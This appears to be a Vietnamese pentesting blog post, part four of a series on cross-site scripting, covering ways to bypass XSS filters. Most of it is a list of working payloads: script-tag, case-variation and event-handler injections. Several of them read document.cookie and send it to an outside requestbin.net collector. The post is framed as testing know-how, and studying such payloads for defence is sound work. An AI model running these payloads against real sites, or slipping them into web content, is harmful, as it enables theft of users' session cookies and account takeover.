 ```yaml
---
layout: post
title: Cross Site Scripting (XSS) [Part 4] - Các phương pháp bypass filter XSS,
date: 2021-05-23 00:32:20 +0700
description: Tìm hiểu về lỗi Cross Site Scripting trên ứng dụng web - P4,
img: 2021/05/23/210523_xss_filter.jpg
fig-caption: # Add figcaption (optional)
tags: [Security]
---
```

Trong quá trình pentest ứng dụng có thể gặp nhiều trường hợp các payload XSS bị filter, làm thế nào để có thể bypass quá trình filter đó. Bài viết này chúng ta sẽ sẽ cùng nhau trao đổi một số phương pháp để thực hiện việc này. 

>PS: Chủ đề này tôi cũng không định ngồi viết một lèo là xong, sẽ viết dần dần theo năm tháng dựa trên những kinh nghiệm của mình tích lỹ được. Do vậy lâu lâu các bạn vào ngó nha có thể có nội dung mới nha. Ok, bắt đầu thôi.

**Nhắc lại:** Các cách bypass XSS phụ thuộc vào khả năng làm sạch input (thực hiện bởi WAF hoặc Ứng dụng). Có một vài cơ chế của việc này như:
* Trả lại lỗi, loại bỏ, encode, hoặc thay thế các input không hợp lệ. 
* Một số có thể dùng blacklist hoặc whitelist các ký tự thường gặp trong payload để ngăn chặn XSS.

Tùy thuộc vào cơ chế filter mà có các cách bypass khác nhau. Nếu ví quá trình filter như người bảo vệ ứng dụng web thì quá trình bypass là quá trình luồn lách để qua mặt những người bảo vệ này. Khó thể nói có công thức nào tuyệt đối mà là sự tùy cơ ứng biến cho phù hợp từng hoàn cảnh. Hãy nhớ điều này.


## Các load js nguyên thủy (Không mask) huyền thoại 
### Alert message

```
<script>alert(1);</script>
```

### Dùng window location

```
<script>window.location="http://requestbin.net/r/9d4pj5wl?c=".concat(document.cookie)</script>
```

### Dùng image

```
<script>new Image().src="http://requestbin.net/r/9d4pj5wl?c=".concat(document.cookie);</script>
```

## Các payload sử dụng mask
### Case sensitive

```
<SCRIPT>alert(1);</SCRIPT>

<ScRipT>alert(1);</sCriPt>
```
### Lọc thẻ script
* Insert thêm ký tự trình duyệt hay bỏ qua (Tab, escape)

```
<script  >alert(1);</script   >
```

* Không dùng thẻ script

```
<img src=x onerror=window.location="http://requestbin.net/r/5h067g6l?c=".concat(document.cookie)>

<video src=1 onerror=alert(1)>

<audio src=1 onerror=alert(1)>

<img src=1 href=1 onerror="javascript:alert(1)"></img>

<audio src=1 href=1 onerror="javascript:alert(1)"></audio>

<video src=1 href=1 onerror="javascript:alert(1)"></video>

<input onblur=javascript:alert(1) autofocus><input autofocus>

<BODY ONLOAD=alert('XSS')>

<button autofocus onfocus=window.location="http://requestbin.net/r/5h067g6l?c=".concat(document.cookie)></button>

<a onmouseover=window.location="http://requestbin.net/r/5h067g6l?c=".concat(document.cookie)>xxs link</a>
```

